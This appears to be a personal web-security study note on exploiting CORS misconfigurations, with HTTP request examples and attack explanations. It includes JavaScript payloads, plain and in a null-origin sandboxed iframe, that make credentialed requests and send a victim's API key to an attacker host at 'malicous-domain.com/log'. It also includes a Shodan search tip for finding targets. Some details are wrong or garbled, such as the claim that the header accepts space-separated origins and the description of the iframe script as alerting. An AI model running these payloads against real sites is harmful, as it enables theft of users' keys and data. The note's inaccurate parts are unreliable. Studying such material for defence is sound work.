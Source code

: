 ![image](https://beren-obsidian-images.imgix.net/125e3a3f0c1315d744e71752dd1f0aa2.png)
##### ***Origin reflection***
When there is user supplied input to a request that places the `Origin` header value into the response value of the `Access-Control-Allow-Origin` header, you can make arbitrary requests from the user supplied input domain that you control.
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://malicous-domain.com
Cookie: sessionid=stolenusercookie

HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://malicous-domain.com
Access-Control-Allow-Credentials: true

{'apiKey': 'sdfgfdgfdgdgfd'}
```

You can create the malicious domain to host this JavaScript that when a user visits, it loads their cookie and makes a request to get their API key from the vulnerable website:
```
let req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'vulnerable-website.com/api/requestApiKey', true)
req.withCredentials = true;
req.send();

function reqListener(){
	location='http://malicous-domain.com/log?key='+this.responseText
}
```
##### ***Origin starts with a URL***
If the `Origin` header starts with a URL like `https://vulnerable-website.com` you can host a malicious website that starts with that subdomain.
```
GET /api HTTP/1.1
Host: vulnerable-website.com
Origin: https://vulnerable-website.com.malicous-domain.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://vulnerable-website.com.malicous-domain.com
```
##### ***Trusting any origin that has the domain included***
When a vulnerable website has the `Origin` header and the `Host` header set to a domain name, they may be vulnerable to a domain origin that still includes the domain.
```
GET /tr/api HTTP/1.1
Host: vulnerable-website.com
Origin: notvulnerable-website.com

HTTP/1.1
Content-Security-Policy: frame-anscestors
Strict-Transport-Security: max-age=3150000
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=blockl
Access-Control-Allow-Origin: https://notvulnerable.org
Access-Control-Allow-Credentials: true
```

As you can see, even with all the headers and security mechanisms in place, if you have a domain that at least ends with the vulnerable website's domain name, they will be vulnerable to a CORS misconfiguration. 
##### ***NULL origin***
Try using the null origin when making a request, the null origin can be found from Rapid7's [sonar.http](https://opendata.rapid7.com/sonar.http/), and also Shodan with the `Access-Control-Allow-Origin: null` search term.

The null origin is whitelisted on some websites because the local file system uses the null origin, HTML5 also has an attribute for iframes called `sandbox` the sandbox attribute is a security mechanism to stop an iframe from performing any harmful actions that would interact with the host website containing the iframe, what it does, is it isolates the iframe within the `null` origin, which is another reason for a website whitelisting the null origin. It could also be the case that what ever programming framework you are using, may automatically set the `Access-Control-Allow-Origin` header, but if you do not define it, it will be defaulted to `null`.

An example of such an attack could be hosting a website with the sandbox attribute in an iframe for the vulnerable website.
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://vulnerable-website.com',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
                location='malicous-website.com/log?key='+this.responseText;
        };
        </script>">
</iframe>
```

The JavaScript inside the iframe opens a new `XMLHttpRequest` to the vulnerable website and configures it to perform a GET request. The script then sends the request, and when a response is received (checked using `onreadystatechange`), it alerts the response text.

Because this script runs within an iframe that has a 'null' origin (due to the `sandbox` attribute), it will send the 'null' Origin header with the request. If the target server is misconfigured to allow 'null' origins, the request will succeed, potentially allowing for the retrieval of sensitive information.
##### ***Common header misconfigurations***
Websites enable CORS by sending the following HTTP response header; `Access-Control-Allow-Origin: https://example.com`. This setting adheres to the [[Same origin policy (SOP)]] by explicitly allowing resources to be shared only with `https://example.com`.

Using the `Access-Control-Allow-Origin` header can be useful for allowing one domain to make requests to the website, if you want to add more domains, you can separate them with spaces like: `Access-Control-Allow-Origin: http://foo.com http://bar.net`. 

**Misconfigured subdomain wildcard**
If you notice that the `Access-Control-Allow-Origin` is using a wildcard domain for a subdomain, then it has been misconfigured, as CORS does not support wildcards for subdomains: `Access-Control-Allow-Origin: *.vulnerable-website.com`. This will not work because the only wildcard CORS support is for every origin: `Access-Control-Allow-Origin: *`

**Restricted use of wildcard `ACAO` header with the `ACAC` header**
Using the wildcard with the `Access-Control-Allow-Origin` header disables the use of having the `Access-Control-Allow-Credentials` set to true, this will give the error of 'Cannot use wildcard in Access-Control-Allow-Origin when credentials flag is true.' The `Access-Control-Allow-Credentials` response header allows the sending of cookies or other user credentials to be included on cross-origin requests, now you can see why the use of these two headers is dangerous:
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

To get around this, many websites will dynamically generate the `Access-Control-Allow-Origin` request header based on the user-supplied `Origin` header. If you see a HTTP response with any Access-Control-* headers but no origins declared, This suggests that the server is likely to produce the header based on the input it receives. Some servers, on the other hand, will issue CORS headers only when an incoming request includes the Origin header, which makes related security risks highly elusive.
##### ***Exploiting XSS via CORS trust relationships***
If a website that trusts an origin that is vulnerable to XSS that exists on a subdomain, then you can exploit its trust relationship. 

If you have found an XSS on a subdomain, you may be able to achieve results with this payload:
```
`https://subdomain.vulnerable-website.com/?xss=<script>cors-here</script>`
```
##### ***Breaking TLS with poorly configured CORS***
If a vulnerable website trusts a subdomain that is using HTTP instead of an HTTPs connection, the attacker can exploit the victims interaction with the vulnerable website.

The attacker could take the following steps in order to compromise the interaction of the vulnerable website:
1. The victim is phished or follows a link that the attacker has exploited with any of the following techniques:
	- [[DOM based XSS#***Open redirect***]]
	- [[Reflected XSS#***XSS in another subdomain***]]
	- Phishing
	- [[Clickjacking - notes#***Redirection with clickjacking***]]
2. The attacker intercepts the plain HTTP request, and returns a spoofed response containing the vulnerable website, this is usually achieved through a [[MITM#***Intercepting and spoofing HTTPS traffic***]] attack or an XSS vulnerability in a vulnerable subdomain.
##### ***Resources***
https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties
https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing
https://stackoverflow.com/questions/24687313/what-exactly-does-the-access-control-allow-credentials-header-do
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#requests_with_credentials